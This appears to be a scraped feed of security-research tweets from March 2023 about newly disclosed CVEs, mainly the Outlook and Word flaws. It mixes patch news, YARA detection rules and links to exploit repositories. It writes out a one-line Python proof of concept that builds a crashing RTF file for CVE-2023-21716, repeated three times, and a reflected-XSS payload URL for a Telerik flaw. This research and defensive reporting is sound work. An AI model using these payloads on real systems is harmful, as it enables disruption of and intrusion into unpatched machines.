<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>221</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1636284425985048577 _at 2023-03-16, 08:33:02_**
<blockquote>
Our current rule set to detect MSG files that exploit CVE-2023-23397 (Outlook) 

It's a work-in-progress - we're trying to extend the rules and weed out FPs 

@0x3c7 @delivrto 

https://t.co/kDAqCDrqql https://t.co/tCpMlX9mvW
</blockquote>

* https://github.com/Neo23x0/signature-base/blob/master/yara/expl_outlook_cve_2023_23397.yar

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1636259145304162305 _at 2023-03-16, 06:52:35_**
<blockquote>
CVE-2023-23397

Exploiting CVE-2023-23397: Microsoft Outlook Elevation of Privilege Vulnerability.

https://t.co/0beKMen1Fl

Details:
https://t.co/VdTW9uViLk

#infosec #CyberSecurity  #Pentesting  #redteam https://t.co/bT4RCzZpDZ
</blockquote>

* https://github.com/sqrtZeroKnowledge/CVE-2023-23397_EXPLOIT_0DAY
* https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>368</code></td>
</tr></table>

---

# ACEResponder
**https://twitter.com/ACEResponder/status/1636116096506818562 _at 2023-03-15, 21:24:09_**
<blockquote>
From our initial recreation of CVE-2023-23397 based on @MDSecLabs, this is what it looks like from a defender's perspective.

Lucky for us, it's super easy to spot. 
1. svchost spawns rundll32 w/attacker UNC path
2. svchost makes distinct HTTP requests

#ThreatHunting #DFIR https://t.co/8GYKKTQiAv
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>192</code></td>
<td>Favorites: <code>533</code></td>
</tr></table>

---

# _mattata
**https://twitter.com/_mattata/status/1636061119558164487 _at 2023-03-15, 17:45:42_**
<blockquote>
CVE-2023-1390, a remote denial of service vulnerability was found in the Linux kernel’s TIPC kernel module.
"Red Hat would like to thank Remy (@GreyNoiseIO)  for reporting this issue."
Baby's first CVE. 🥳
https://t.co/mCjNZVQb9I https://t.co/4SreUeq4kL
</blockquote>

* https://access.redhat.com/security/cve/CVE-2023-1390

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---

# msftsecresponse
**https://twitter.com/msftsecresponse/status/1636060491133927427 _at 2023-03-15, 17:43:12_**
<blockquote>
Microsoft has released CVE-2023-23397 to address the critical elevation of privilege (EoP) vulnerability affecting Microsoft Outlook for Windows. We strongly recommend all customers update Microsoft Outlook for Windows to remain secure. Learn more ⬇️

https://t.co/GNovrlBniL
</blockquote>

* https://msft.it/6018504d4

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>125</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---

# vxzeroknowledge
**https://twitter.com/vxzeroknowledge/status/1636060122974679044 _at 2023-03-15, 17:41:44_**
<blockquote>
Finally :) exploit for CVE-2023-23397

https://t.co/ynCFi5PXCn
</blockquote>

* https://github.com/sqrtZeroKnowledge/CVE-2023-23397_EXPLOIT_0DAY

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# aderumier
**https://twitter.com/aderumier/status/1636055312187772930 _at 2023-03-15, 17:22:37_**
<blockquote>
CVE-2023-23415    faille windows icmp remote code execution 🎉🤦‍♀️  Back to the 90's 😅 https://t.co/244eTu3Ptz
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---

# BushidoToken
**https://twitter.com/BushidoToken/status/1636034142717595650 _at 2023-03-15, 15:58:30_**
<blockquote>
⚠ CVE-2023-23397 active exploitation
- Microsoft patched an Outlook zero-day
- Exploited to steal NTLM hashes
- Used to target European organizations
- Leveraged since April 2022 by FancyBear/APT28 🇷🇺
- Reported by CERT-UA 🇺🇦
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1635877511593697281 _at 2023-03-15, 05:36:06_**
<blockquote>
🔒First one (CVE-2023-23397) is a privilege escalation flaw in #Microsoft Outlook, which can be triggered by a specially crafted email.

Second actively exploited flaw (CVE-2023-24880) is a bypass flaw in Windows SmartScreen that can allow attackers to evade security protections.
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# MDSecLabs
**https://twitter.com/MDSecLabs/status/1635791863478091778 _at 2023-03-14, 23:55:46_**
<blockquote>
We've just published a quick write up on CVE-2023-23397, which allows a remote adversary to leak NetNTLMv2 hashes: https://t.co/xDxGwJfY2e by @domchell https://t.co/hmZsMZDz2P
</blockquote>

* https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>412</code></td>
<td>Favorites: <code>824</code></td>
</tr></table>

---

# ido_cohen2
**https://twitter.com/ido_cohen2/status/1635740133533122570 _at 2023-03-14, 20:30:13_**
<blockquote>
🌐 A gold mine for attackers, Outlook zero-day vulnerability (CVE-2023-23397) 🚨

https://t.co/kAd89ju2Jd
</blockquote>

* https://www.bleepingcomputer.com/news/microsoft/microsoft-fixes-outlook-zero-day-used-by-russian-hackers-since-april-2022/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1635710867395461120 _at 2023-03-14, 18:33:55_**
<blockquote>
Patch Tuesday: Microsoft pushed out fixes for at least 80 Windows flaws and called special attention to CVE-2023-23397, a critical-severity issue in Microsoft Outlook that has been exploited in zero-day attacks

Story: https://t.co/yeDy2JfLIx
</blockquote>

* https://www.securityweek.com/microsoft-patch-tuesday-zero-day-attacks/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1635615545838952449 _at 2023-03-14, 12:15:09_**
<blockquote>
Linux unauthenticated remote code execution in kernel context (CVE-2023-0210 affecting KSMBD)
CVE analysis writeup by @sysdig

https://t.co/1eKncHlLx7

#Linux #kernel #exploit #infosec #cybersecurity https://t.co/6wc4TuZRoX
</blockquote>

* https://sysdig.com/blog/cve-2023-0210-linux-kernel-unauthenticated-remote-heap-overflow/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1635521673217597440 _at 2023-03-14, 06:02:08_**
<blockquote>
#Fortinet researchers have discovered an advanced and highly targeted threat actor that is exploiting a zero-day security #vulnerability (CVE-2022-41328) in FortiOS. This flaw could potentially result in the execution of arbitrary code.

Learn more: https://t.co/RVO93rE8Ht

#tech
</blockquote>

* https://thehackernews.com/2023/03/fortinet-fortios-flaw-exploited-in.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# _JohnHammond
**https://twitter.com/_JohnHammond/status/1635382671256985600 _at 2023-03-13, 20:49:47_**
<blockquote>
We took a look at the #Veeam CVE-2023-27532 noise, and @calebjstewart crafted a PoC for the unauthenticated credential dump -- and a little Remote Code Execution💥😎

Huge thanks to @codewhitesec for raising the flag on this. Go patch! Patch your potatoes!
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>84</code></td>
</tr></table>

---

# HuntressLabs
**https://twitter.com/HuntressLabs/status/1635379321836564482 _at 2023-03-13, 20:36:28_**
<blockquote>
We dug into the latest Veeam Backup &amp; Replication vulnerability, CVE-2023-27532. Our researchers crafted a proof-of-concept exploit to dump credentials as an unauthenticated user and pushed it further to achieve arbitrary code execution. Read all about it: https://t.co/tQFPnkV8ux https://t.co/7gsTddZagX
</blockquote>

* https://hubs.ly/Q01GFNNJ0

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# BitFriends1
**https://twitter.com/BitFriends1/status/1634871445758042112 _at 2023-03-12, 10:58:21_**
<blockquote>
I just wrote my first exploit for a real-world kernel vulnerability. It is about CVE-2022-24122. I did some cross-cache UAF attack to corrupt modprobe_path. You need to know the kernel base to prevent an oops during the exploit process. Reliability isn't great 😅 maybe like 5% https://t.co/OhZHjSBT7r
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1634209857510289411 _at 2023-03-10, 15:09:26_**
<blockquote>
RT @PortSwiggerRes: Apache &lt;2.4.56 is vulnerable to request splitting in mod_rewrite and mod_proxy #CVE-2023-25690
https://t.co/qRxf8GSpGR…
</blockquote>

* https://httpd.apache.org/security/vulnerabilities_24.html#2.4.56

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1634087233207648258 _at 2023-03-10, 07:02:10_**
<blockquote>
LPE #exploit for CVE-2023-21768 (#Windows Ancillary Function Driver for WinSock Elevation of Privilege #Vulnerability)

// by @chompie1337 and @FuzzySec 

https://t.co/zJBaukSzQF
</blockquote>

* https://github.com/xforcered/Windows_LPE_AFD_CVE-2023-21768

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1633904736117112845 _at 2023-03-09, 18:57:00_**
<blockquote>
CVE-2023-21768 : Local Privilege Escalation PoC por @FuzzySec y @chompie1337

El exploit  funciona en sistemas Windows 11 22H2 
https://t.co/ZA2Gh4mKLR
</blockquote>

* https://github.com/xforcered/Windows_LPE_AFD_CVE-2023-21768

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>48</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1633884603978006528 _at 2023-03-09, 17:37:00_**
<blockquote>
RT @reverseame: OpenSSH Pre-Auth Double Free CVE-2023-25136 – Writeup and Proof-of-Concept https://t.co/4js3VpLK9o
</blockquote>

* https://jfrog.com/blog/openssh-pre-auth-double-free-cve-2023-25136-writeup-and-proof-of-concept/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1633822116759101441 _at 2023-03-09, 13:28:42_**
<blockquote>
GitHub - chompie1337/Windows_LPE_AFD_CVE-2023-21768: LPE exploit for CVE-2023-21768 - https://t.co/y3ZrUTEA5k
</blockquote>

* https://github.com/chompie1337/Windows_LPE_AFD_CVE-2023-21768

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# chompie1337
**https://twitter.com/chompie1337/status/1633498392125997056 _at 2023-03-08, 16:02:20_**
<blockquote>
Releasing a Windows 11 LPE exploit by @FuzzySec and I. Exploits CVE-2023-21768, a vuln in afd.sys. Blog post soon!
https://t.co/iqQYsw5TmP https://t.co/8ypb4mZGtN
</blockquote>

* https://github.com/xforcered/Windows_LPE_AFD_CVE-2023-21768

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>31</code></td>
<td>Retweets: <code>549</code></td>
<td>Favorites: <code>1841</code></td>
</tr></table>

---

# DragonJAR
**https://twitter.com/DragonJAR/status/1633489790594154496 _at 2023-03-08, 15:28:09_**
<blockquote>
¡Cuidado! 🛑 La nueva vulnerabilidad de Microsoft Office puede ejecutar código sin interacción del usuario 😱

Al pasado fallo RCE que afecta productos microsoft denominado #Follina (CVE-2022-30190), se le suma un nuevo problema de seguridad para Microsoft Word relacionado 🧵👇 https://t.co/7ibwbL0V0h
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>190</code></td>
<td>Favorites: <code>360</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1633355002478575618 _at 2023-03-08, 06:32:33_**
<blockquote>
CISA has added 3 more flaws to its Known Exploited Vulnerabilities (KEV) catalog, citing evidence of active exploitation:

CVE-2022-35914 - Teclib GLPI RCE
CVE-2022-33891 - Apache Spark Command Injection
CVE-2022-28810 - Zoho ADSelfService Plus RCE

Read: https://t.co/37JzQHfQju
</blockquote>

* https://thehackernews.com/2023/03/cisas-kev-catalog-updated-with-3-new.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1633225121891594240 _at 2023-03-07, 21:56:27_**
<blockquote>
The Microsoft update for CVE-2023-21716 was updated to suggest configuring Outlook to read mail in plain text as opposed to "Rich Text".
But despite calling it "Rich Text", Outlook doesn't use RTF for emails. It's TNEF.
Anyone know why this advice was added?
Spaghetti + Wall? https://t.co/HGm8q6tTnl
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>141</code></td>
</tr></table>

---

# IsrewyMohand
**https://twitter.com/IsrewyMohand/status/1633128561467965440 _at 2023-03-07, 15:32:45_**
<blockquote>
Yes,I was awarded 500$ for Xss Due To CVE-2017-9140 
https://Target/Telerik.ReportViewer.axd?optype=Parameters&amp;bgColor=_000000%22onload=%22prompt(1) https://t.co/3bWevJnKu2
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>265</code></td>
</tr></table>

---

# SI_FalconTeam
**https://twitter.com/SI_FalconTeam/status/1633114934253965314 _at 2023-03-07, 14:38:36_**
<blockquote>
🚨 #CVE-2023-21716 is a new criticial #RCE in Microsoft Word exploited through RTF documents. Similar, older exploits are still very popular with threat actors.
We tested the PoC created by @jduck and created a first prototype #yara hunting rule 🔍
https://t.co/JFFoltTmTt
1/2🧵 https://t.co/UjCz0YVZKA
</blockquote>

* https://github.com/SIFalcon/Detection/blob/main/Yara/Hunting/HUNT_RTF_CVE_2023_21716.yar

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>63</code></td>
</tr></table>

---

# Gi7w0rm
**https://twitter.com/Gi7w0rm/status/1633104447168475138 _at 2023-03-07, 13:56:56_**
<blockquote>
⚠️ Critical Vulnerability in Microsoft Word .rtf file format was patched in February 2023.
CVE-2023-21716 found by @jduck is a heap corruption #vulnerability that allows remote code execution!
Triggered even in file explorer.
A #PoC for demonstrating the https://t.co/ViR3JIcFGd… https://t.co/oNQf0QWXuP
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-21716

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1633037060566130688 _at 2023-03-07, 09:29:10_**
<blockquote>
CVE-2023-1112: Path Traversal in Drag and Drop Multiple File Uploader PRO - Contact Form 7 version 5.0.6.1 allows unauthenticated remote attacker to upload files anywhere writable on the remote server.

PoC

https://t.co/eKyUMyAqHN https://t.co/nDVz6OwIM9
</blockquote>

* https://github.com/Nickguitar/Drag-and-Drop-Multiple-File-Uploader-PRO-Path-Traversal

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1632969086052315138 _at 2023-03-07, 04:59:03_**
<blockquote>
PoC for Microsoft Word RCE (CVE-2023-21716) Published https://t.co/mMk7CAVxox
</blockquote>

* https://securityonline.info/poc-for-microsoft-word-rce-cve-2023-21716-published/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---

# __kokumoto
**https://twitter.com/__kokumoto/status/1632877236759183360 _at 2023-03-06, 22:54:05_**
<blockquote>
Microsoft Wordにおける遠隔コード実行脆弱性(CVE-2023-21716)の概念実証コード(PoC)が公開された。悪意あるRTF文書を開いた被害者の権限でコード実行が可能。PoCは脆弱性発見者のJoshua Drake氏によるもので、1ツイートに収まる長さまで短縮されている。 https://t.co/yvhbbFM77n
</blockquote>

* https://www.bleepingcomputer.com/news/security/proof-of-concept-released-for-critical-microsoft-word-rce-bug/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# strinsert1Na
**https://twitter.com/strinsert1Na/status/1632746330350325760 _at 2023-03-06, 14:13:54_**
<blockquote>
TL にポコポコ python の one liner が流れてきていたけどあれホンモノの PoC だったんだな。。。

PoC exploit for recently patched Microsoft Word RCE is public (CVE-2023-21716) https://t.co/0BXpxIL1Ax
</blockquote>

* https://www.helpnetsecurity.com/2023/03/06/cve-2023-21716-poc/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1632711072095387648 _at 2023-03-06, 11:53:48_**
<blockquote>
CVE-2023-21716(Microsoft Word RCE vuln) Python PoC @momika233 

open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>356</code></td>
</tr></table>

---

# akaclandestine
**https://twitter.com/akaclandestine/status/1632497070421471235 _at 2023-03-05, 21:43:26_**
<blockquote>
🤔CVE-2023-21716(Microsoft Word RCE vuln) Python PoC
open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# jduck
**https://twitter.com/jduck/status/1632471544935923712 _at 2023-03-05, 20:02:00_**
<blockquote>
CVE-2023-21716 Python PoC (take 2) open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>25</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>262</code></td>
<td>Favorites: <code>877</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1631935016988016640 _at 2023-03-04, 08:30:02_**
<blockquote>
Cool blog post by Karsten König (@CrowdStrike) showing how to modify an existing Linux kernel exploit (CVE-2021-3490) to achieve container escape

https://t.co/UQ0I3wHBSL https://t.co/rNrcYbPJHS
</blockquote>

* https://www.crowdstrike.com/blog/exploiting-cve-2021-3490-for-container-escapes/

<table><tr>
